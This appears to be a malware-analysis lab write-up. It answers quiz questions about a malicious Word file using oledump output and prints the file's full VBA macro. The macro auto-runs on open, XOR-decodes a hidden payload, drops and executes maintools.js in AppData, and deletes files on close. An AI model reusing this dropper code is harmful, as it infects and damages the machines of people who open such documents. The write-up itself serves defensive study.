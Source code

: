 Q1: What is the sha256 hash of the doc file?
ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751

-------------------------------------------------------
Q2: Multiple streams contain macros in this document. Provide the number of lowest one.
```
 ./oledump.py 49b367ac261a722a7c2bbbc328c32545
```
![image 1](image/1.png)
```
8: M    7117 'Macros/VBA/Module1'
```
= > 8
---------------------------------------------------------
Q3: What is the decryption key of the obfuscated code?
```
./oledump.py -s 8 49b367ac261a722a7c2bbbc328c32545
```
=> hex 
```
./oledump.py -s 8 -v 49b367ac261a722a7c2bbbc328c32545
```

```
ence '\D'
  manual = '''
Attribute VB_Name = "Module1"
Public OBKHLrC3vEDjVL As String
Public B8qen2T433Ds1bW As String
Function Q7JOhn5pIl648L6V43V(EjqtNRKMRiVtiQbSblq67() As Byte, M5wI32R3VF2g5B21EK4d As Long) As Boolean
Dim THQNfU76nlSbtJ5nX8LY6 As Byte
THQNfU76nlSbtJ5nX8LY6 = 45
For i = 0 To M5wI32R3VF2g5B21EK4d - 1
EjqtNRKMRiVtiQbSblq67(i) = EjqtNRKMRiVtiQbSblq67(i) Xor THQNfU76nlSbtJ5nX8LY6
THQNfU76nlSbtJ5nX8LY6 = ((THQNfU76nlSbtJ5nX8LY6 Xor 99) Xor (i Mod 254))
Next i
Q7JOhn5pIl648L6V43V = True
End Function
Sub AutoClose()
On Error Resume Next
Kill OBKHLrC3vEDjVL
On Error Resume Next
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
R7Ks7ug4hRR2weOy7.DeleteFile B8qen2T433Ds1bW & "\*.*", True
Set R7Ks7ug4hRR2weOy7 = Nothing
End Sub
Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim NEnrKxf8l511
Dim N18Eoi6OG6T2rNoVl41W As Long
Dim M5wI32R3VF2g5B21EK4d As Long
N18Eoi6OG6T2rNoVl41W = FileLen(ActiveDocument.FullName)
NEnrKxf8l511 = FreeFile
Open (ActiveDocument.FullName) For Binary As #NEnrKxf8l511
Dim E2kvpmR17SI() As Byte
ReDim E2kvpmR17SI(N18Eoi6OG6T2rNoVl41W)
Get #NEnrKxf8l511, 1, E2kvpmR17SI
Dim KqG31PcgwTc2oL47hjd7Oi As String
KqG31PcgwTc2oL47hjd7Oi = StrConv(E2kvpmR17SI, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim VUy5oj112fLw51h6S
Set VUy5oj112fLw51h6S = CreateObject("vbscript.regexp")
VUy5oj112fLw51h6S.Pattern = "MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh"
Set I4j833DS5SFd34L3gwYQD = VUy5oj112fLw51h6S.Execute(KqG31PcgwTc2oL47hjd7Oi)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 16827
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #NEnrKxf8l511, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not Q7JOhn5pIl648L6V43V(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
If Not R7Ks7ug4hRR2weOy7.FolderExists(B8qen2T433Ds1bW) Then
B8qen2T433Ds1bW = Environ("appdata")
End If
Set R7Ks7ug4hRR2weOy7 = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End Sub
```
=> khoa giai ma EzZETcSXyKAdF_e5I2i1

---------------------------------------------------------------
Q4: What is the name of the dropped file?
![image 2](image/2.png)
=> maintools.js

![image 3](image/3.png)
-------------------------------------------------------------
Q5: This script uses what language?
=> Jscript 

JScript là một ngôn ngữ kịch bản (scripting language) của Microsoft được tạo nên dựa trên chuẩn ECMAScript [1]. JScript chủ yếu được sử dụng ở những ứng dụng có hỗ trợ Windows Script, như Internet Explorer, Active Server Pages, và Windows Script Host.

